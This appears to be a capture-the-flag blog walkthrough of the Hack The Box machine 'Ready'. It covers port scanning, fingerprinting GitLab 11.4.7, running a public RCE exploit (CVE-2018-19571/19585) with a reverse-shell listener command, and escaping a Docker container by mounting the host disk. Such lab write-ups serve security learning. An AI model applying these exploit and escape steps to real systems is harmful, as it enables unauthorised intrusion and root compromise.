 ```yaml
---
layout: post
title:  "[HTB] Ready"  
date:   2021-05-15 3:33:00 +0200
last_modified_at: 2021-05-15 03:33:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Walkthrough, CVE, Gitlab, docker]
categories: Hackthebox
---
```


This time it is an abuse of a CVE that is present in a version of Gitlab.
---

![](/images_blog/img_ready/Pastedimage20210515121042.png)
![Pastedimage20210515121042](https://user-images.githubusercontent.com/76759292/127757666-ad49fc55-99bf-4aed-88c5-bb3b4e438220.png)

## Enumeration

*Ports:*
```
22 -> OpenSSH 8.2p1 Ubuntu 4
5080 -> nginx
```

### Nmap

```sql
nmap -p- -sT -T5 --open -n -v 10.10.10.220 -oG Allport1 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 19:21 EDT
Initiating Ping Scan at 19:21
Scanning 10.10.10.220 [2 ports]
Completed Ping Scan at 19:21, 0.06s elapsed (1 total hosts)
Initiating Connect Scan at 19:21
Scanning 10.10.10.220 [65535 ports]
Discovered open port 22/tcp on 10.10.10.220
Connect Scan Timing: About 22.87% done; ETC: 19:23 (0:01:45 remaining)
Discovered open port 5080/tcp on 10.10.10.220
Connect Scan Timing: About 54.84% done; ETC: 19:23 (0:00:50 remaining)
Connect Scan Timing: About 72.24% done; ETC: 19:23 (0:00:35 remaining)
Completed Connect Scan at 19:23, 119.47s elapsed (65535 total ports)
Nmap scan report for 10.10.10.220
Host is up (0.15s latency).
Not shown: 51328 filtered ports, 14205 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 119.72 second
```

*More exhaustive scanning:*
```sql
nmap -sC -sV -p5080,22 10.10.10.220 -oN Scan_Port1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 19:24 EDT
Nmap scan report for 10.10.10.220
Host is up (0.054s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.86 seconds
```

### Masscan

Always discarding false positives:

```sql
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.220
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-04-25 23:16:46 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 5080/tcp on 10.10.10.220
```


*Web enumeration tips*

If we want to know quickly the services that a website has, we can use the tool ```Whatweb```

```bash
whatweb 10.10.10.220:5080
http://10.10.10.220:5080 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.10.220], RedirectLocation[http://10.10.10.220:5080/users/sign_in], Strict-Transport-Security[max-age=31536000], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx
http://10.10.10.220:5080/users/sign_in [200 OK] Cookies[_gitlab_session], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx], HttpOnly[_gitlab_session], IP[10.10.10.220], Open-Graph-Protocol, PasswordField[new_user[password],user[password]], Script, Strict-Transport-Security[max-age=31536000], Title[Sign in · GitLab], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx
```

*GitLab Version*

```plaintext
GitLab Community Edition [11.4.7]
```

*Searchsploit*

When we have the version of the application what we proceed is to look for if it has a cve that version:

```bash
searchsploit GitLab 11.4.7   

Exploit
Title                                                      			Path
GitLab 11.4.7 - RCE (Authenticated) (2)                             | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)			| ruby/webapps/49257.py
```

## GitLab Page
But before executing the cve we must register in GitLab:
*Register*

```plaintext
benji
Benji123
benji@htb.com
```
## Remote Code Execution 
In this one you don't have to modify anything in the source code, you just have to add the parameters and it runs automatically [RCE](https://www.exploit-db.com/exploits/49334)

```bash
# Exploit Title: GitLab 11.4.7 RCE (POC)
# Date: 24th December 2020
# Exploit Author: Norbert Hofmann
# Exploit Modifications: Sam Redmond, Tam Lai Yin
# Original Author: Mohin Paramasivam
# Software Link: https://gitlab.com/
# Environment: GitLab 11.4.7, community edition
# CVE: CVE-2018-19571 + CVE-2018-19585
```

*Run*

```bash
python 49334.py -u benji -p Benji123!!! -g http://10.10.10.220 -l 10.10.14.234 -P 4444
```
We listen on the port we specify and that's it.

## File system Escape

When we have the initial access we realize that we are in a docker so the objective would be to escape from it.

In the path /opt/backups/gitlab.rb we will find a backup with the root password of the container

![](/images_blog/img_ready/Pastedimage20210503175440.png)
![Pastedimage20210503175440](https://user-images.githubusercontent.com/76759292/127757672-c36da576-b3ef-42dc-8974-70bdc4f1a91f.png)


This password that we have found in the backup, we will use it to access as a root user of the container. Being inside a container we are very limited so the idea would be to mount the hosts partition in a folder that we create in /tmp to be able to visualize it and in this way we can access /root and read everything it has.

![](/images_blog/img_ready/Pastedimage20210503175936.png)
![Pastedimage20210503175936](https://user-images.githubusercontent.com/76759292/127757675-8e9f154d-1c64-4ee3-ae07-fc3d113848f8.png)


In this case we saw how you can view the host file system from a container. This machine was an excellent way to see what happens when we don't keep up to date.

MACHINE PWNED!!!!!

<p align="center">
<img src="https://tenor.com/view/typing-petty-fast-cloudy-with-a-chance-of-meatballs-flint-lockwood-gif-4907824.gif" width="200" height="200" />
</p>
